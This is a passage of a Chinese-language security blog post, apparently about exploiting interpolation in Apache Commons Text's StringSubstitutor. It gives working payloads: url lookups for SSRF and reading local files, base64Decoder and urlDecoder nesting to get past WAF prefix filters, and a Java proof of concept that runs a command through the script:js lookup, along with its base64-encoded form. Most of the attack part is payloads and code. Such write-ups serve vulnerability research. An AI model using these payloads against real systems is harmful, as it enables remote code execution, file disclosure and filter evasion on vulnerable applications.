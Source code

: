 发起 url 请求

同样需要指定 charsetname

![image-20230107153822318](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071538383.png)

可以利用 http 和 file 协议, 造成 ssrf 或者读取本地文件

```
${url:utf-8:http://127.0.0.1:8000/}

${url:utf-8:file:///d:/test.txt}
```

![image-20230107154058731](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071540923.png)

## 编码绕过

主要利用 urlDecoder 和 base64Decoder

![image-20230107154635648](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071546705.png)

![image-20230107154703586](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071547638.png)

原因在于 `StringSubstitutor#substitute` 支持递归解析

![image-20230107155022602](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071550727.png)

所以可以利用编码 + 嵌套的方式来绕过某些 waf 对 prefix 的检测

base64Decoder

```java
package com.example;

import org.apache.commons.text.StringSubstitutor;

import java.util.Base64;

public class Demo {
    public static void main(String[] args) throws Exception{
        StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
        String code = "${script:js:java.lang.Runtime.getRuntime().exec(\"calc\")}";
        String poc = "${base64Decoder:" + Base64.getEncoder().encodeToString(code.getBytes()) + "}";
        String res = interpolator.replace(poc);
        System.out.println(res);
    }
}
```

```java
${base64Decoder:JHtzY3JpcHQ6anM6amF2YS5sYW5nLlJ1bnRpbWUuZ2V0UnVudGltZSgpLmV4ZWMoImNhbGMiKX0=}
```
